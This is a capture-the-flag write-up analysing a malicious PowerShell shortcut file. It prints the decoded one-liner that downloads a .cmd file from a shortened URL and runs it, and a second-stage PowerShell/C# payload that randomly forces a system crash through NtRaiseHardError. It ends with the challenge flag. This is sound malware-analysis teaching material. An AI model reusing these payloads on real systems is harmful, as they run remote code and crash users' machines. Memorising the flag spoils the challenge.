




# Russian Roulette

My PowerShell has been acting really weird!! It takes a few seconds to start up, and sometimes it just crashes my computer!?!?! :(

- Category: malware
- Challenge File: Windows PowerShell.lnk

### Solution:

##### 1. Analyze the lnk file

Utilize rabin2 tool from radare2 to analyze the lnk file

```bash
$ rabin2 -zzz Windows\ PowerShell.lnk
000 0x00000024 0x00000024   5   6 () ascii g$^\bz
001 0x00000064 0x00000064   4   5 () ascii /C:\\
002 0x00000089 0x00000089   7   8 () ascii Windows
003 0x00000097 0x00000097   6   9 ()  utf8 ﾧT,*CY
004 0x000000bf 0x000000bf   7  16 () utf16le Windows
005 0x000000df 0x000000df   8   9 () ascii System32
006 0x000000ef 0x000000ef   6   9 ()  utf8 ﾧT,*CY
007 0x00000115 0x00000115   9  20 () utf16le _System32
008 0x00000139 0x00000139  17  18 () ascii WindowsPowerShell
009 0x00000156 0x00000156   6   7 () ascii +CYxH.
010 0x00000179 0x00000179  17  36 () utf16le WindowsPowerShell
011 0x000001ad 0x000001ad   4   5 () ascii v1.0
012 0x000001be 0x000001be   6   7 () ascii +CYZH.
013 0x000001e1 0x000001e1   4  10 () utf16le v1.0
014 0x000001fb 0x000001fb  14  15 () ascii powershell.exe
015 0x00000217 0x00000217   5   6 () ascii CYVH.
016 0x00000239 0x00000239  14  30 () utf16le powershell.exe
017 0x00000288 0x00000288  57  58 () ascii C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe
018 0x000002c5 0x000002c5  19  40 () utf16le C:\\Windows\\system32
019 0x000002ed 0x000002ed 135 272 () utf16le -e aQB3AHIAIABpAHMALgBnAGQALwBqAHcAcgA3AEoARAAgAC0AbwAgACQAZQBuAHYAOgBUAE0AUAAvAC4AYwBtAGQAOwAmACAAJABlAG4AdgA6AFQATQBQAC8ALgBjAG0AZAA=
020 0x00000437 0x00000437   9  10 () ascii windows11
021 0x00000493 0x00000493   4   5 () ascii 1SPS
022 0x000004a4 0x000004a4   4   5 () ascii sf"=
023 0x000004b8 0x000004b8  21  44 () utf16le System32 (C:\\Windows)
024 0x000004ec 0x000004ec   4   5 () ascii 1SPS
025 0x00000511 0x00000511  44  90 () utf16le S-1-5-21-940291183-874774319-2012240919-1001
026 0x00000575 0x00000575   5   6 () ascii 1SPS0
027 0x0000059a 0x0000059a   7  16 () utf16le cmd.exe
028 0x000005e5 0x000005e5  11  24 () utf16le Application
029 0x0000061a 0x0000061a   4   5 () ascii 1SPS
030 0x0000061f 0x0000061f   4   5 () ascii jc(=
031 0x0000063f 0x0000063f  27  56 () utf16le C:\\Windows\\System32\\cmd.exe
032 0x0000067f 0x0000067f   4   5 () ascii 1SPS
```

Here we extracted the strings from the lnk file which has multiple entries reference PowerShell `WindowsPowerShell\\v1.0\\powershell.exe` and associated directories, suggesting that this .lnk file is likely designed to launch PowerShell in the Windows System32 directory. Most important at entry `019` there is this string `aQB3AHIAIABpAHMALgBnAGQALwBqAHcAcgA3AEoARAAgAC0AbwAgACQAZQBuAHYAOgBUAE0AUAAvAC4AYwBtAGQAOwAmACAAJABlAG4AdgA6AFQATQBQAC8ALgBjAG0AZAA=` encoded in base64 with UT16-LE. 

##### 2. Decode the suspicious base64 strings 

We can utilize [CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)Decode_text('UTF-16LE%20(1200)')&input=YVFCM0FISUFJQUJwQUhNQUxnQm5BR1FBTHdCcUFIY0FjZ0EzQUVvQVJBQWdBQzBBYndBZ0FDUUFaUUJ1QUhZQU9nQlVBRTBBVUFBdkFDNEFZd0J0QUdRQU93QW1BQ0FBSkFCbEFHNEFkZ0E2QUZRQVRRQlFBQzhBTGdCakFHMEFaQUE) to decode the string.



Decode string appear to be a Powershell script:
```ps1
iwr is.gd/jwr7JD -o $env:TMP/.cmd;& $env:TMP/.cmd
```

It Invoke-WebRequest from `is.gd/jwr7JD` which downloads a file and then store it at TMP directory with the extension of a `.cmd`, which is like a batch file for Command Prompt. It then execute the dropper cmd file.

##### 3. Utilize threat intelligence tool to search for jwr7D file

We can utilize [ANY.RUN](https://any.run/report/de6d56ae01166232f2cb403c86d2ddf59d7654510100971fcd0fe59a3a8e9944/666e0cce-b438-484d-9f40-58033ceb81e6) to understand the behaviour of the malware.





From the analysis, we able to notice multiple cmd.exe processes being executed but at `PID 2076` it execute encoded command `powershell -e` with a long base64 string

##### 4. Decode the base64 strings from PID 2076

This is the full Powershell command execution:

```ps1
powershell -e JABzAD0AJwB1AHMAaQBuAGcAIABTAHkAcwB0AGUAbQA7AHUAcwBpAG4AZwAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAA7AHUAcwBpAG4AZwAgAFMAeQBzAHQAZQBtAC4AUwBlAGMAdQByAGkAdAB5AC4AQwByAHkAcAB0AG8AZwByAGEAcABoAHkAOwB1AHMAaQBuAGcAIABTAHkAcwB0AGUAbQAuAFIAdQBuAHQAaQBtAGUALgBJAG4AdABlAHIAbwBwAFMAZQByAHYAaQBjAGUAcwA7AHUAcwBpAG4AZwAgAFMAeQBzAHQAZQBtAC4ASQBPADsAcAB1AGIAbABpAGMAIABjAGwAYQBzAHMAIABYAHsAWwBEAGwAbABJAG0AcABvAHIAdAAoACIAbgB0AGQAbABsAC4AZABsAGwAIgApAF0AcAB1AGIAbABpAGMAIABzAHQAYQB0AGkAYwAgAGUAeAB0AGUAcgBuACAAdQBpAG4AdAAgAFIAdABsAEEAZABqAHUAcwB0AFAAcgBpAHYAaQBsAGUAZwBlACgAaQBuAHQAIABwACwAYgBvAG8AbAAgAGUALABiAG8AbwBsACAAYwAsAG8AdQB0ACAAYgBvAG8AbAAgAG8AKQA7AFsARABsAGwASQBtAHAAbwByAHQAKAAiAG4AdABkAGwAbAAuAGQAbABsACIAKQBdAHAAdQBiAGwAaQBjACAAcwB0AGEAdABpAGMAIABlAHgAdABlAHIAbgAgAHUAaQBuAHQAIABOAHQAUgBhAGkAcwBlAEgAYQByAGQARQByAHIAbwByACgAdQBpAG4AdAAgAGUALAB1AGkAbgB0ACAAbgAsAHUAaQBuAHQAIAB1ACwASQBuAHQAUAB0AHIAIABwACwAdQBpAG4AdAAgAHYALABvAHUAdAAgAHUAaQBuAHQAIAByACkAOwBwAHUAYgBsAGkAYwAgAHMAdABhAHQAaQBjACAAdQBuAHMAYQBmAGUAIABzAHQAcgBpAG4AZwAgAFMAaABvAHQAKAApAHsAYgBvAG8AbAAgAG8AOwB1AGkAbgB0ACAAcgA7AFIAdABsAEEAZABqAHUAcwB0AFAAcgBpAHYAaQBsAGUAZwBlACgAMQA5ACwAdAByAHUAZQAsAGYAYQBsAHMAZQAsAG8AdQB0ACAAbwApADsATgB0AFIAYQBpAHMAZQBIAGEAcgBkAEUAcgByAG8AcgAoADAAeABjADAAMAAwADAAMAAyADIALAAwACwAMAAsAEkAbgB0AFAAdAByAC4AWgBlAHIAbwAsADYALABvAHUAdAAgAHIAKQA7AGIAeQB0AGUAWwBdAGMAPQBDAG8AbgB2AGUAcgB0AC4ARgByAG8AbQBCAGEAcwBlADYANABTAHQAcgBpAG4AZwAoACIAUgBOAG8AOABUAFoANQA2AFIAdgArAEUAeQBaAFcANwAzAE4AbwBjAEYATwBJAGkATgBGAGYATAA0ADUAdABYAHcAMgA0AFUAbwBnAEcAZABIAGsAcwB3AGUAYQAvAFcAaABuAE4AaABDAE4AdwBqAFEAbgAxAGEAVwBqAGYAdwAiACkAOwBiAHkAdABlAFsAXQBrAD0AQwBvAG4AdgBlAHIAdAAuAEYAcgBvAG0AQgBhAHMAZQA2ADQAUwB0AHIAaQBuAGcAKAAiAC8AYQAxAFkAKwBmAHMAcABxAC8ATgB3AGwAYwBQAHcAcABhAFQAMwBpAHIAWQAyAGgAYwBFAHkAdABrAHQAdQBIADcATABzAFkAKwBOAGwATABlAHcAPQAiACkAOwBiAHkAdABlAFsAXQBpAD0AQwBvAG4AdgBlAHIAdAAuAEYAcgBvAG0AQgBhAHMAZQA2ADQAUwB0AHIAaQBuAGcAKAAiADkAcwBYAEcAbQBLADQAcQA5AEwAZABZAEYAZABPAHAANABUAFMAcwBRAHcAPQA9ACIAKQA7AHUAcwBpAG4AZwAoAEEAZQBzACAAYQA9AEEAZQBzAC4AQwByAGUAYQB0AGUAKAApACkAewBhAC4ASwBlAHkAPQBrADsAYQAuAEkAVgA9AGkAOwBJAEMAcgB5AHAAdABvAFQAcgBhAG4AcwBmAG8AcgBtACAAZAA9AGEALgBDAHIAZQBhAHQAZQBEAGUAYwByAHkAcAB0AG8AcgAoAGEALgBLAGUAeQAsAGEALgBJAFYAKQA7AHUAcwBpAG4AZwAoAHYAYQByACAAbQA9AG4AZQB3ACAATQBlAG0AbwByAHkAUwB0AHIAZQBhAG0AKABjACkAKQB1AHMAaQBuAGcAKAB2AGEAcgAgAHkAPQBuAGUAdwAgAEMAcgB5AHAAdABvAFMAdAByAGUAYQBtACgAbQAsAGQALABDAHIAeQBwAHQAbwBTAHQAcgBlAGEAbQBNAG8AZABlAC4AUgBlAGEAZAApACkAdQBzAGkAbgBnACgAdgBhAHIAIABzAD0AbgBlAHcAIABTAHQAcgBlAGEAbQBSAGUAYQBkAGUAcgAoAHkAKQApAHsAcgBlAHQAdQByAG4AIABzAC4AUgBlAGEAZABUAG8ARQBuAGQAKAApADsAfQB9AH0AfQAnADsAJABjAD0ATgBlAHcALQBPAGIAagBlAGMAdAAgAFMAeQBzAHQAZQBtAC4AQwBvAGQAZQBEAG8AbQAuAEMAbwBtAHAAaQBsAGUAcgAuAEMAbwBtAHAAaQBsAGUAcgBQAGEAcgBhAG0AZQB0AGUAcgBzADsAJABjAC4AQwBvAG0AcABpAGwAZQByAE8AcAB0AGkAbwBuAHMAPQAnAC8AdQBuAHMAYQBmAGUAJwA7ACQAYQA9AEEAZABkAC0AVAB5AHAAZQAgAC0AVAB5AHAAZQBEAGUAZgBpAG4AaQB0AGkAbwBuACAAJABzACAALQBMAGEAbgBnAHUAYQBnAGUAIABDAFMAaABhAHIAcAAgAC0AUABhAHMAcwBUAGgAcgB1ACAALQBDAG8AbQBwAGkAbABlAHIAUABhAHIAYQBtAGUAdABlAHIAcwAgACQAYwA7AGkAZgAoACgARwBlAHQALQBSAGEAbgBkAG8AbQAgAC0ATQBpAG4AIAAxACAALQBNAGEAeAAgADcAKQAgAC0AZQBxACAAMQApAHsAWwBYAF0AOgA6AFMAaABvAHQAKAApAH0AUwB0AGEAcgB0AC0AUAByAG8AYwBlAHMAcwAgACIAcABvAHcAZQByAHMAaABlAGwAbAAuAGUAeABlACIA
```

Again, use [CyberChef](https://tinyurl.com/38r62mpr) to decode it. Here the result:



```ps1
$s='using System;using System.Text;using System.Security.Cryptography;using System.Runtime.InteropServices;using System.IO;public class X{[DllImport("ntdll.dll")]public static extern uint RtlAdjustPrivilege(int p,bool e,bool c,out bool o);[DllImport("ntdll.dll")]public static extern uint NtRaiseHardError(uint e,uint n,uint u,IntPtr p,uint v,out uint r);public static unsafe string Shot(){bool o;uint r;RtlAdjustPrivilege(19,true,false,out o);NtRaiseHardError(0xc0000022,0,0,IntPtr.Zero,6,out r);byte[]c=Convert.FromBase64String("RNo8TZ56Rv+EyZW73NocFOIiNFfL45tXw24UogGdHkswea/WhnNhCNwjQn1aWjfw");byte[]k=Convert.FromBase64String("/a1Y+fspq/NwlcPwpaT3irY2hcEytktuH7LsY+NlLew=");byte[]i=Convert.FromBase64String("9sXGmK4q9LdYFdOp4TSsQw==");using(Aes a=Aes.Create()){a.Key=k;a.IV=i;ICryptoTransform d=a.CreateDecryptor(a.Key,a.IV);using(var m=new MemoryStream(c))using(var y=new CryptoStream(m,d,CryptoStreamMode.Read))using(var s=new StreamReader(y)){return s.ReadToEnd();}}}}';$c=New-Object System.CodeDom.Compiler.CompilerParameters;$c.CompilerOptions='/unsafe';$a=Add-Type -TypeDefinition $s -Language CSharp -PassThru -CompilerParameters $c;if((Get-Random -Min 1 -Max 7) -eq 1){[X]::Shot()}Start-Process "powershell.exe"
```

This powershell script uses AES decryption to decode a base64-encoded ciphertext, where the AES key and initialization vector (IV) are also Base64-encoded. Next, it is decrypt the Base64 string.

##### 5. Python script to decode the base64 encrypted string

Here is the script to decrypt with AES.

```py
import base64
from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
from cryptography.hazmat.backends import default_backend

# Base64-encoded ciphertext, key, and IV from the PowerShell script
ciphertext_b64 = "RNo8TZ56Rv+EyZW73NocFOIiNFfL45tXw24UogGdHkswea/WhnNhCNwjQn1aWjfw"
key_b64 = "/a1Y+fspq/NwlcPwpaT3irY2hcEytktuH7LsY+NlLew="
iv_b64 = "9sXGmK4q9LdYFdOp4TSsQw=="

# Decode from Base64
ciphertext = base64.b64decode(ciphertext_b64)
key = base64.b64decode(key_b64)
iv = base64.b64decode(iv_b64)

# Set up AES decryption
cipher = Cipher(algorithms.AES(key), modes.CBC(iv), backend=default_backend())
decryptor = cipher.decryptor()

# Perform decryption
plaintext = decryptor.update(ciphertext) + decryptor.finalize()

# Decode the plaintext to string (assuming UTF-8)
plaintext_str = plaintext.decode('utf-8')

print("Decrypted text:", plaintext_str)
```

Output from the script:

```bash
Decrypted text: flag{4e4f266d44717ff3af8bd92d292b79ec}
```

We got the flag.

**Flag:** `flag{4e4f266d44717ff3af8bd92d292b79ec}`

